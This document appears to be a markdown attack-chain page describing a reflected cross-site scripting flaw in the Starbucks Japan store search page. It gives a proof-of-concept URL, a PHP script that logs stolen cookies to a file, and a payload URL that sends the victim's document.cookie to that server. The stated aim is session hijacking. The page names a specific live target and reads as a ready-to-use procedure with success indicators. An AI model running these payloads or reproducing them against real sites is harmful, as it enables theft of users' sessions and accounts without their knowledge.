

# Reflected XSS in Starbucks Store Search Leading to Cookie Theft and Session Hijacking

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability in the Starbucks Japan store search functionality to execute arbitrary JavaScript, steal session cookies, and facilitate session hijacking.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Firefox]]
- [[tools/PHP]]
- [[tools/Local-Web-Server]]

### Target Environment

- Web platform
- Access to Starbucks Japan store search page at https://www.starbucks.co.jp/store/search/
- Local server setup for exfiltration (e.g., port 80 open on localhost)

### Initial Access Requirements

- No credentials required
- Direct network access to the target URL
- Victim must visit the crafted malicious URL

## Detailed Attack Procedures

### Step 1: Trigger Reflected XSS
procedure: [[procedures/Trigger-Reflected-XSS-via-Free-Word-Parameter]]

**Objective**: Inject and execute arbitrary JavaScript via the 'free_word' parameter to confirm XSS vulnerability.

**Instructions**: Use [[tools/Firefox]] to navigate to the crafted URL with an encoded payload. This exploits the lack of input sanitization, reflecting the script in the page.

```bash
# No command; direct URL navigation
https://www.starbucks.co.jp/store/search/?free_word=%22%3E%3Cscript%3Ealert()%3C/script%3E%3E
```

**Expected Output**: An alert box displaying in the browser, confirming JavaScript execution.

**Success Indicators**:
- Alert popup appears
- Page source shows reflected script without sanitization

### Step 2: Setup Local PHP Server for Cookie Capture
procedure: [[procedures/Set-Up-Local-PHP-Server-for-Cookie-Capture]]

**Objective**: Prepare an exfiltration endpoint to receive stolen cookies from the victim's browser.

**Instructions**: Create a PHP script using [[tools/PHP]] and host it on [[tools/Local-Web-Server]]. Execute the [[commands/php-cookie-capture]] to set up the file writer.

```bash
# Save as test.php and host on local server
<?php $cookie = $_GET['cookie']; $f = fopen("cookiefile.txt","w"); fwrite($f,$cookie); fclose($f); ?>
```

Start the local server (e.g., via PHP built-in server: `php -S localhost:80`).

**Expected Output**: Server running at http://localhost/test.php, ready to log incoming cookie data to cookiefile.txt.

**Success Indicators**:
- Local server accessible
- test.php file created and writable

### Step 3: Exfiltrate Cookies Using XSS Payload
procedure: [[procedures/Exfiltrate-Cookies-Using-XSS-Payload]]

**Objective**: Use the XSS to access and send document.cookie to the attacker's server for session hijacking.

**Instructions**: In [[tools/Firefox]], visit the payload URL that injects JavaScript to steal and exfiltrate cookies to the local server.

```bash
# Direct URL navigation with payload
https://www.starbucks.co.jp/store/search/?free_word=%22%3E%3Cscript%3Evar cookie =document.cookie;location.href=`http://localhost/test.php?cookie=${cookie}`%3C/script%3E
```

**Expected Output**: Browser redirects to local server, appending cookies to the URL; check cookiefile.txt for captured data (e.g., session tokens).

**Success Indicators**:
- Cookies written to cookiefile.txt
- Potential session hijacking if cookies include authentication data

## Attack Chain Summary

### Key Achievements

1. Confirmed reflected XSS via unsanitized 'free_word' parameter
2. Set up exfiltration server to capture browser cookies
3. Demonstrated cookie theft, enabling session hijacking despite HttpOnly flag absence

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Credentials In Files]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]
- [[Credential Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
